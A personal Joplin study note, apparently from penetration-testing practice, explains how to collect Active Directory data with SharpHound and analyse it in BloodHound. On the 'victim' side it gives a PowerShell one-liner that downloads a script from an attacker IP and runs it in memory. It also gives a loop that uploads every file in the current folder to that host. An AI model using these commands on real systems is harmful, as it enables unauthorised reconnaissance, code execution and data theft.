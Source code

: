 BloodHound

# On Victim Comp

Use the SharpHound.ps1 file (Make sure to download it to the victim computer and import it)

Then execute

> Invoke-Bloodhound -CollectionMethod All

Send the zip file back to kali (Using Samba is easiest, else just upload file)

<ins>**NOTE:**</ins>SharpHound.exe got rejected by the practice machine. So use the powershell method

> powershell -nop "IEX(New-Object System.Net.WebClient).downloadString('http://192.168.119.168:5001/SharpHound.ps1')"

Upload Files back

> foreach($item in (dir)){ (New-Object System.Net.WebClient).UploadFile('http://192.168.119.168:8000/', $item.FullName)}

# On Kali

Conversion tool - ldd2bloodhound

![667a4de359f3eb5e778a817579386d1b.png](:/406641bc92464b1dbfbbc7aa8d03b48f)

Remember to start neo4j before starting bloodhound

> neo4j start
> 
> bloodhound

This is used for analysis

Note: The Powershell script version only supports Bloodhound3. The latest 4.1.0 is not compatible.

id: 9edf38372dec441196b29dc795906939
parent_id: c900bb1263d649dd801144a9657e4075
created_time: 2022-01-17T09:26:17.245Z
updated_time: 2022-04-22T03:16:22.764Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-17T09:26:17.245Z
user_updated_time: 2022-04-22T03:16:22.764Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1